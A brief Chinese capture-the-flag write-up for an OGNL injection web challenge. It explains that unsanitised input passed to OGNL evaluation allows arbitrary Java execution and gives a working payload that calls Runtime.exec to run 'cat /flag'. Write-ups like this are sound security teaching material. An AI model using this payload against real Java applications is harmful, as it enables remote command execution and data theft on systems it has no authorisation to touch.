


# Web-OGNL注入

## 题意

给你一个输入框，你可以提交输入，检查是否存在输出。

## 题解
因为是OGNL注入下的题目，先尝试一下OGNL表达式看看能否得到结果


提交后发现得到了正确的输出结果，说明有OGNL漏洞


**OGNL表达式注入漏洞原理**：当用户可控的输入被传递给OGNL的getValue()或setValue()方法进行解析时，攻击者可以注入恶意的OGNL表达式，从而执行任意Java代码。

构造如下payload得到最终flag
```
%{new java.util.Scanner(@java.lang.Runtime@getRuntime().exec('cat /flag').getInputStream()).useDelimiter('\\A').next()}
```